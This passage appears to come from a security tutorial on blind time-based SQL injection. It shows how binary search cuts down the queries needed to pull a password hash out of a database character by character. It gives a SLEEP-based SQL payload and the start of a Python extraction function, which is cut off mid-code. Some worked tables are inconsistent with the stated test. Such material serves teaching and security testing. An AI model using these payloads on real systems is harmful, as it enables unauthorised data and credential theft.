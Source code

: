 2. ***Make the First Query:*** To find the first character of the hash, you start by testing the middle value of the range ('8' in the case of hexadecimal). You inject a time-based SQL query that checks if the first character of the hash is greater than or equal to '8'. If the response is delayed (due to the SLEEP function), this means the first character is greater than or equal to '8'. If there's no delay, the first character is smaller than '8': 
```sql
SELECT IF(SUBSTRING(hash_column, 1, 1) >= '8', SLEEP(5), 0);
```

3. ***Narrow the Range:*** Depending on the response, you halve the range. If the first character is greater than or equal to '8', you now test values between '8' and 'f'. If it’s smaller, you test between '0' and '7'.

4. ***Repeat for Each Character:*** After finding the first character, you apply the same strategy for each subsequent character in the hash. Each time, you reduce the range of possible characters, narrowing it down with each query.

5. ***Completion:*** After 4 queries for each of the 32 characters (using binary search), you'll have the full hash with only 128 queries—significantly fewer than if you were brute-forcing each character one by one.

By applying binary search, you effectively decrease the query count from 256 (if testing each character sequentially) to just 128, taking advantage of the limited-query environment to quickly extract the hash. This approach showcases the power of binary search in optimizing SQL injection techniques, allowing attackers to bypass query limitations while extracting sensitive data from a database in a fraction of the time.

Below are examples of binary search put into a table to better understand the concept:

| Query# | Alphabet         | Question | Result |       
| ------ | ---------------- | -------- | ------ |
| 1      | 0123456789abcdef | \>7?     | False  |
| 2      | 01234567         | \>3?     | True   |
| 3      | 34567            | \>5?     | True   |
| 4      | 567              | \>6?     | False  |

| Query# | Alphabet         | Question | Result |
| ------ | ---------------- | -------- | ------ |
| 1      | 0123456789abcdef | \>7?     | True   |
| 2      | 789abcdef        | \>b?     | False  |
| 3      | 789ab            | \>9?     | True   |
| 4      | 9ab              | \>a?     | True   |

## Adding Binary Search to the Tool

The following section will highlight the new function that will be added to the tool to perform binary searches. Here is the new function:

```python
def extract_hash_bst(charset, user_id, password_length):
    found = ""
    for index in range(0, password_length):
        start = 0
        end = len(charset) -1
        while start <= end:
            if end - start == 1:
                if start == 0 and boolean_query(index, user_id, charset[start]):
                    found += charset[start]
                else:
                    found += charset[start + 1]
                break
            else:
```